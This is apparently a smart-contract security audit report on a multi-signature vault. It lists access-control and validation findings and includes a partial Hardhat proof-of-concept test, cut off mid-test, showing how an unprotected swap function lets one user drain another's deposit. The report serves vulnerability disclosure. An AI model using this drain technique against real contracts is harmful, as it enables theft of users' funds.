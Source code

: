 # Sierra Audit

## Overview
This document details the findings of a security audit performed by Team Lima on Team Sierra's project.

## Project Summary
The MultiSigVault project provides a solution for managing pooled funds with multi-signature access control, utilizing a rebalancing mechanism to maintain user-defined token proportions. However, the current implementation presents various security concerns, such as the lack of input validations and inadequate access control, which could potentially compromise the contract's integrity and user funds.

## Table of Contents

#### 1.Critical
 - 1.1 Attacker can drain the MultiSigVault

#### 2.High
 - 2.1 Deposit Function Lacks Token Tracking
 - 2.2 Withdraw Function Allows Token Mismatch and Ignores Pool Proportions
 - 2.3 No Access Control in createPool
 - 2.4 No Access Control in removePool
 - 2.5 No Access Control in setAvailableTokens
 - 2.6 No Access Control in setPriceFeeds
 - 2.7 Unprotected Swap Function Accessible to Anyone

#### 3.Medium
 - 3.1 Possible Denial of service in rebalance in RebalancingPool
 - 3.2 Lack of input validation when calling createPool

## Critical Findings

### 1. Attacker can drain the MultiSigVault
By exploiting vulnerabilities in the deposit, withdraw, and swap functions, an attacker can manipulate the contract to drain funds from the MultiSigVault. These combined flaws pose a severe risk to the security of user funds stored within the vault.

```
    it.only("Draining the vault", async function () {
      const { vaultContract, rebalancingPools, owner, otherAccount, weth, dai, bob, alice } = await loadFixture(deployMULTSIGVAULTFixture);

 
      await logState(dai, weth, bob, alice, vaultContract);

      await dai.connect(bob).approve(vaultContract.address, ethers.utils.parseUnits('100000', 18));
      await vaultContract.connect(bob).deposit(ethers.utils.parseUnits('100000', 18), dai.address);

      console.log("Bob has 100,000 DAI and deposits it into the vault");

      await logState(dai, weth, bob, alice, vaultContract);


      console.log("Alice see that and swap 100,000 DAI to 51 WETH");

      await vaultContract.connect(alice).swap(daiAddress, wethAddress, ethers.utils.parseEther("100000"), 0);

      await logState(dai, weth, bob, alice, vaultContract);
```